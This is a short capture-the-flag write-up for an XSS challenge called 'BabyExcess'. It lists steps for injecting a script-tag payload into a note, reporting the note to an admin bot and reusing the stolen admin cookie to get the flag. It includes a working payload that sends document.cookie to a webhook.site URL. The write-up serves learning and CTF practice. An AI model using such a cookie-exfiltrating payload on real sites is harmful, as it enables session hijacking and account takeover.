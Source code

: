 # BabyExcess

## Short Writeup

1. Create xss payload using script tag
2. Go to webhook.site and a get the randomly generated url
3. paste that url in the payload 
4. create a note using that payload
5. report that note to the admin
6. we will get the admin cookie in the webhook.site page
7. using developer tools we can edit the cookie on the challenge site and put admin's cookie 
7. After editing the cookie, refresh the page , then  we will be logged in  as admin thus we will the flag.

```html
<script>window.location.href=`https://webhook.site/ff27a242-3497-4002-af66-f4a5a7b70ed2/${document.cookie}`</script>
```

